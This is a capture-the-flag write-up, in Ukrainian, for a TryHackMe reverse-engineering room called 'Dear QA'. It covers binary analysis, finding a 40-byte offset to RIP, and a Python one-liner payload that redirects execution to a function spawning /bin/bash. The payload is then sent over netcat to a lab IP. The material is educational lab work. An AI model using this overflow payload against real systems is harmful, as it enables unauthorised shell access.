









# [Dear QA - Are you able to solve this challenge involving reverse engineering and exploit development?] 

Складність: Easy

Ціль: 10.113.180.143

1. Аналіз бінарного файлу
   1.1. Визначення типу файлу:
      За допомогою команди `file` дізнаємося архітектуру бінарника:
      `file DearQA-1627223337406.DearQA`
      

      Файл є 64-бітним виконуваним файлом Linux. Важлива деталь — він not stripped (не очищений), тобто в ньому збереглися оригінальні назви функцій та змінних, що значно полегшує аналіз.

   1.2. Аналіз текстових рядків (strings):
      Перевіряємо наявність цікавих текстових маркерів у коді:
      `strings DearQA-1627223337406.DearQA`
      
      

      Серед системного сміття знаходимо ключові підказки:
         * What's your name: та Hello: %s (Програма приймає введення користувача).
         * Congratulations! You have entered in the secret function! (Вказівка на секретну функцію).
         * /bin/bash та execve (Свідчить про наявність коду, який викликає командну оболонку).

   1.3. Перевірка механізмів захисту (checksec):
      `checksec --file=DearQA-1627223337406.DearQA`
         

      Результати перевірки:
         * NX: Unknown / Executable (Захист від виконання коду зі стеку відсутній).
         * Canary: No canary found (Немає захисних «канарейок» стеку, переповнення не блокується).
         * PIE: No PIE (0x400000) (Адреси функцій у пам'яті статичні й не змінюються при кожному запуску).
   
2. Динамічний аналіз та пошук зсуву (Offset)
   Оскільки захист Canary та PIE вимкнений, наша мета — переповнити буфер введення, дійти до регістру адреси повернення (RIP) та перезаписати його адресою потрібної нам функції.

   2.1. Пошук адреси цільової функції:
      Запускаємо дебаггер GDB і дезасемблюємо функцію vuln, назву якої ми побачили в символах.
      

      Аналіз асемблерного коду показує, що функція vuln починається за адресою 0x400686 і викликає системну функцію execve для запуску /bin/bash. Це наша ціль.

   2.2. Розрахунок точного зміщення (Offset) до RIP:
      Щоб дізнатися, скільки байтів «сміття» потрібно надіслати для досягнення RIP, завантажуємо в програму тестовий маркований рядок із груп літер
      `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO`
   
      Програма очікувано падає із помилкою SIGSEGV (Segmentation Fault). Перевіряємо стан регістрів процесора:
      

      * Значення 0x49 в ASCII — це літера I, а 0x4a — це літера J.
      * Регістр RBP виявився затертим символами IIIIJJJJ.
      * Рахуємо символи до цієї зони: від A до H маємо 8 груп по 4 літери (8 * 4 = 32 байти буфера).
      * Сам регістр RBP у 64-бітній системі займає 8 байтів.Разом: 32(буфер) + 8 (RBP) = 40 байтів.

      Будь-які дані, що йдуть одразу після 40-го байта, будуть записуватися напряму в RIP.

3. Експлуатація вразливості
   3.1. Створення корисного навантаження (Payload):
      Пишемо короткий скрипт на Python, який генерує 40 символів сміття (літери A) та додає до них адресу функції vuln (0x400686), записану у форматі Little-Endian:
      `python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x86\x06\x40\x00\x00\x00\x00\x00')" > payload`
         

   3.2. Запуск експлойту та захоплення прапора:
      Результат NMAP:
      

      Відправляємо створений пейлоад на віддалений сервер TryHackMe через Netcat. Використовуємо конструкцію (cat payload; cat), щоб утримати термінал відкритим після відправки бінарних даних:
      `(cat payload; cat) | nc 10.113.180.143 5700`
      

      
   
